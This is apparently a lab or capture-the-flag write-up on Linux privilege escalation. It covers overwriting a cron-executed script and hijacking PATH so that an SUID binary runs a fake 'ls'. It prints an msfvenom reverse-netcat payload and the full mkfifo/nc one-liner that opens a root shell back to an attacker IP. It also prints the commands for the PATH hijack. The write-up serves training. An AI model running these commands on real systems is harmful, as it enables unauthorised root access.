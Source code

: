     1. What is the flag to specify a payload in msfvenom?

`-p`

Creating a payload with `msfvenom -p cmd/unix/reverse_netcat LHOST=10.11.32.89 LPORT=8889`

payload = `mkfifo /tmp/whqial; nc 10.11.32.89 8889 0</tmp/whqial | /bin/sh >/tmp/whqial 2>&1; rm /tmp/whqial`

    2. What directory is the "autoscript.sh" under?

/home/user4/Desktop

Start a netcat listener on the attacking machine.

Using `echo "mkfifo /tmp/whqial; nc 10.11.32.89 8889 0</tmp/whqial | /bin/sh >/tmp/whqial 2>&1; rm /tmp/whqial" > autoscript.sh` to overwrite the file with our malicious code on the victim machine.

After a few minutes the code is executed and we have a root shell that I was also able to stabilise.

## Exploiting PATH Variable

PATH is an environmental variable in Linux and Unix operating systems that specifies directories that hold executable programs. It is very simple to view the path of the relevant user with the command `echo $PATH`.

If we have an SUID binary that we can see is calling the system shell to do a basic process, we can overwrite the PATH variable to a location of choice so that the system runs an executable written by us. As with any SUID file, it will run this command with the same privileges as the owner of the SUID file.

**Questions**

    1. Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?

ls

Using the /tmp directory as our location for our fake `ls` command

    2 What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating?

`echo "/bin/bash" > ls`.


    3. Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?

chmod +x ls

Now we need to manipulate the path variable so that it points to our ls file when it is ran. This can be done using the command `export PATH=/tmp:$PATH`. Now running the script will execute our file instead and will create a shell as the root user. To gain the original path back run `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH`

## Expanding Your Knowledge
